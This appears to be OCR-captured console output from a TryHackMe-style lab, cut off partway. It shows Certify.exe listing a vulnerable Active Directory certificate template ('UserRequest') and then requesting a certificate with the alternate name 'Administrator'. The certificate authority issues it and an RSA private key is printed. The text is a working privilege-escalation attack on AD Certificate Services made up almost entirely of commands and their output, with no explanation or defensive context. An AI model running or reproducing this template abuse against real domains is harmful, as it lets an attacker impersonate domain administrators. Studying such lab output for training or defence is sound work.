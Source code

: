```
Certify completed in 00:00:15.8021412

[!] Vulnerable Certificates Templates :

    CA Name                               : LUNDC.lunar.eruca.com\lunar-LUNDC-CA
    Template Name                         : UserRequest


PS C:\THMTools> .\Certify.exe request /ca:LUNDC.lunar.eruca.com\lunar-LUNDC-CA /template:UserRequest /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : LUNAR\thm
[*] No subject name specified, using current context as subject.

[*] Template                : UserRequest
[*] Subject                 : CN=Try THM. Hack Me, CN=Users, DC=lunar, DC=eruca, DC=com
[*] AltName                 : Administrator

[*] Certificate Authority   : LUNDC.lunar.eruca.com\lunar-LUNDC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 15

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA4g63dRtvJxu/PI9jhQB/4kRoJJuHgAJSKpdofhsRxXbZfYNq
HkI6Kl/Xik+4W4vBypDQabmt1VoGvmko9MuaR77SCMM15MDN57vHfhaTgz9oq+GP
207HO4s9wh+9GoYUiQtg+Z/3VWMGOprDNuQU4sosKiLnNAHlA46Q4Ld99j0COHMw
G/qKk1j8h32SCjirRzREIhT3DXCxZ1gZKBcHV3OQFhExpYTk7i8GVvJdgY3wRpFu
VYHlgFjHF7ba8jOAgWMfMApzzJJx2bs2DXw1Gpp4ipMg9y+Zq3FhckYLozFTG2C1
yanXIKYEfvhi7xZfqJ6bpzTn+HucBZIUTghvXQIDAQABAoIBAQDf76g5cFXqLgiB
26HArcABy7ZHHXNbkfEHlDnFQteV/6hwN/C1zPGF7K++qj59IbN2EYMEWRYlVit8
EPyrk85f6F50o70NwRm4yEJVW9QBnpz4OFij7iRbjhI97ecNEWniYM1OO/NuOMyA
3bMo+0TdbV3W2ACleoL9xQssMVmsxOJe29fngLuG6FQaZwXLDJK13i/xn20iyrq3
BbA/UgVntpiBwaJYyVuB/unckYhnF5o/bj5GdYpnfxf+C7W2n14b+mn5Uyts+xvc
vjCEKtTxDyF67QDO5VzCqWn/3FcQf6LsbiVMFT/SpVoKXhTkRZGaWCcJdHZPSXLU
RETcrbIZAoGBAPZjDqFvv3DQasV2M2FghRLox6k8zX43X9yPjaRC/uD0Voao8wh6
67FJaDthIDujmnXhezq5NrUQ1U37x0lTRoPPPNZ2v9KVVTG3fkxQhZqATohi7GY+
ny4/+WBx7IkAwct3oMzcRe6L8HlVrGSANNvb7YCFw9UqOUKGXXOgdeXDAoGBAOrg
mz0PI7CVBkG4Gyms3tRNu6y6PN6mCcZpbVpSWe1switD7Tmx0dEjKX/YLaRgWDap
mgocDcxUYOSuzh+lOwcj2njxM5UwPe7tnqjrJAJlWN6hkKYHCHOnMRI2WrKOiRmL
oP0JZIYmvJtqkGlExAs9oDc9QEX/SjAuZbdI2GRfAoGARwg72ZLr8ExF2/O90F8R
PmhZ15Kt86tnOaExRqAB9zy6DUx79H/rn0r4f9X6gvchusZszntDKGRX+omR5LPb
ani+o13M45sl2pV6FepI+kfvXCaY3MlE/wJ2lLWDaeQL+urcMvN2PdWeWHy4nKjR
lGkNSbZGxRfNNj6iholGNB0CgYAcYX2AmEa4vJkf8c4ecAwQ3T+zNGHMiYWe2vhi
tJa3MLAZqECO+ySeP8Bw+T8yoI2oNUAuvosQSJXYrCKuAjoqt7Nbb9HK0iR5rW7B
fIBCZdqiNCWVWj40M1yjlbvJ3Z1FX/DZAnyKFT4vDWZbwfpqXUzxv833Z0ygm8qg
pgW3wwKBgQC3AdjTmd4Hy9/89bOZ/T+AVpSZ1rbPJl/a1MgE/pTTokbuKKASvYwY
v3eLIkVxwNkVl1WSccugKwv06txUHUr0t+42qhEemwZSv7hvA7HePVqCSdU40Okw
FOroN2LvavgtlXgn5JtBnJ6MBrGiSlr2dk99X+G4b7V0eEW5prPaCg==
```